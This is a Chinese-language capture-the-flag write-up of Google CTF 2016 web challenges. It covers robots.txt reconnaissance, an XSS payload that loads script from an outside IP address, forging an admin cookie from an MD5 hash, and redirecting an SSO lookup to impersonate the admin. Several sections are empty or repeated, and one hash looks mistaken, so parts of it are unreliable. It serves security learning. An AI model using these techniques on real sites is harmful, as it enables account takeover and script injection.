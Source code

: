 # Google CTF 2016 Web

1.  Wallowing Wallabies - Part One

    -   题面上可以使用的功能为零，源码里也没有什么切入点。
    -   查看各种套路，发现`robots.txt`
        ```http
        User-agent: *
        Disallow: /deep-blue-sea/
        Disallow: /deep-blue-sea/team/
        # Yes, these are alphabet puns :)
        Disallow: /deep-blue-sea/team/characters
        Disallow: /deep-blue-sea/team/paragraphs
        Disallow: /deep-blue-sea/team/lines
        Disallow: /deep-blue-sea/team/runes
        Disallow: /deep-blue-sea/team/vendors
        ```
    -   发现其中`/deep-blue-sea/team/vendors`可以访问，页面内容为：

        > Hello!
        > If you've been directed to this webpage; you have been requested to file out for vendor level access to our system.
        > To request access; please fill out your form, and an admin will review your application as soon as possible.

    -   预计会有XSS漏洞出现，随便点东西提交：

        > Thank you, your request has been received
        > Your message to the admins is as follows:
        > !!! Expecting to find `<script src=' in your input -- please re-read the level challenge`.

    -   So赤果果的提示，构造playload `<script src="http://104.131.23.191/xss.js"></script>`

    -   [Google CTF – Web 1 – Wallowing Wallabies – Part One](http://buer.haus/2016/05/01/google-ctf-web-1-wallowing-wallabies-part-one/)

2.  Wallowing Wallabies - Part One

    -   XSS

3.  Ernst Echidna

    > Can you hack this website? The robots.txt sure looks interesting.

    -   进入页面，提示注册，先查看`robots.txt`：`Disallow: /admin`
    -   访问`/admin`，得到`Sorry, this interface is restricted to administrators only`
    -   查看Cookie：`md5-hash: 912ec803b2ce49e4a541068d495ab570`，为刚才注册用户名的MD5,
    -   直接把Cookie改为admin的MD5`912ec803b2ce49e4a541068d495ab570`，得到flag

4.  Dancing Dingoes

    > We're interested in finding out what information is stored on this website. We've already obtained the username "proff" and the password "strobe.c", but can't work out how to access the "admin" user. Any ideas?

    -   采用题目给予的用户名登录
    -   抓包看登录过程，发现有个指向`https://dancing-dingoes.ctfcompetition.com/api/users/login?domain=dancing-dingoes.ctfcompetition.com`的请求
    -   修改其参数进行重放，得到错误：`parsing JSON - invalid character '<' looking for beginning of value`
    -   再改到一个不存在的地址，得到错误`fetching current SSO user information - Get rest/v1/user/current: API error 7 (urlfetch: DNS_ERROR)`
    -   访问其API，获得API格式`{ "UserID": "proff" }`
    -   所以这个登录过程是通过请求一个API来获得UserID，将其指向一个在`rest/v1/user/current`地址下UserID为admin的域名即可。
    -   域名需要通过https访问

5.  Wallowing Wallabies - Part Three
6.  Purple Wombats

    > We've received a penetration test request for this high-quality site, but we were too busy building a CTF. Can you help us out?

    \-

